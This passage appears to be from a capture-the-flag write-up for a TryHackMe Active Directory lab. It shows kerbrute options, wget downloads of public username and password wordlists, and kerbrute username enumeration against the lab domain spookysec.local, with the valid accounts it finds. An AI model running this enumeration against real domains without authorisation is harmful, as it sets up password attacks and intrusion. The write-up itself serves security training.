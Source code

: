 ```
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

`userenum`

2. What notable account is discovered? (These should jump out at you)

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
--2020-10-17 11:08:02--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 744407 (727K) [text/plain]
Saving to: ‘userlist.txt’

userlist.txt                                     100%[=======================================================================================================>] 726.96K   456KB/s    in 1.6s

2020-10-17 11:08:04 (456 KB/s) - ‘userlist.txt’ saved [744407/744407]

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
--2020-10-17 11:08:13--  https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 569236 (556K) [text/plain]
Saving to: ‘passwordlist.txt’

passwordlist.txt                                 100%[=======================================================================================================>] 555.89K  2.24MB/s    in 0.2s

2020-10-17 11:08:13 (2.24 MB/s) - ‘passwordlist.txt’ saved [569236/569236]

kali@kali:~/CTFs/tryhackme/Attacktive Directory$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (1ad284a) - 10/17/20 - Ronnie Flathers @ropnop

2020/10/17 11:08:19 >  Using KDC(s):
2020/10/17 11:08:19 >   spookysec.local:88

2020/10/17 11:08:20 >  [+] VALID USERNAME:       james@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       James@spookysec.local
2020/10/17 11:08:20 >  [+] VALID USERNAME:       robin@spookysec.local
2020/10/17 11:08:21 >  [+] VALID USERNAME:       darkstar@spookysec.local
```